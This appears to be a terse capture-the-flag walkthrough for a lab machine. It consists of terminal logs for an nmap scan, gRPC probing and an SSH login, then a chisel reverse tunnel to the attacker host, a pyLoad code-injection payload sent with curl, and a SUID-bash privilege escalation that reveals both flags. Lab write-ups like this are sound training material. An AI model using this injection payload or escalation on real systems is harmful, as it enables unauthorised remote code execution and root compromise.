 └──╼ [★]$ nmap -sC -A -T4 -p- -Pn 10.129.85.76
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 20:42 BST
Nmap scan report for 10.129.85.76
Host is up (0.0044s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :


└──╼ [★]$ telnet 10.129.85.76 50051
Trying 10.129.85.76...
Connected to 10.129.85.76.
Escape character is '^]'.
?�?� ?@Did not receive HTTP/2 settings before handshake timeoutConnection closed by foreign host.

https://github.com/fullstorydev/grpcui

└──╼ [★]$ go install github.com/fullstorydev/grpcui/cmd/grpcui@latest

└──╼ [★]$ chmod -R 777 go/

└──╼ [★]$ ./grpcui -plaintext 10.129.94.151:50051
gRPC Web UI available at http://127.0.0.1:32953/


![image](https://github.com/Rogue-1/HTB/assets/105310322/1798d19a-54b0-47d8-8efa-4114f991063c)

![image](https://github.com/Rogue-1/HTB/assets/105310322/e08a1923-efe7-4dcc-81f0-d6052dcd9eca)

![image](https://github.com/Rogue-1/HTB/assets/105310322/6a096f4e-55c8-41a7-b58a-7a4ca47692dd)

![image](https://github.com/Rogue-1/HTB/assets/105310322/ba5b0b95-e080-4f05-8355-b9564cedfe57)

![image](https://github.com/Rogue-1/HTB/assets/105310322/89b443cb-3cd5-40c0-b7bf-bfb58ec18094)

└──╼ [★]$ ssh sau@10.129.94.151
sau@10.129.94.151's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)

sau@pc:~$ cat user.txt
474dded2f0348a7c9aacbad64cb7e513




└──╼ [★]$ chisel server --reverse --port 1234
2023/07/11 22:04:39 server: Reverse tunnelling enabled
2023/07/11 22:04:39 server: Fingerprint izTDIgf3pIe+DypOlVdLmutBd4Tj0fu+cuNRh3rvtyM=
2023/07/11 22:04:39 server: Listening on http://0.0.0.0:1234
2023/07/11 22:04:40 server: session#1: tun: proxy#R:8000=>8000: Listening

sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:04:15 client: Connecting to ws://10.10.14.31:1234


![image](https://github.com/Rogue-1/HTB/assets/105310322/010ff159-666f-4e78-a64d-11f764d553d9)


└──╼ [★]$ curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"bash%20/dev/shm/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Tue, 11 Jul 2023 21:27:37 GMT
Server: Cheroot/8.6.0

Could not decrypt key

```
#!/bin/bash

chmod u+s /bin/bash
```
```
sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:27:21 client: Connecting to ws://10.10.14.31:1234
2023/07/11 21:27:21 client: Connected (Latency 3.771334ms)
^C2023/07/11 21:27:40 client: Disconnected
2023/07/11 21:27:40 client: Give up
sau@pc:/dev/shm$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

```
```
sau@pc:/dev/shm$ bash -p
bash-5.0# cat /root/root.txt
d54654eeb7d4934ce9f86fe80693accf
```
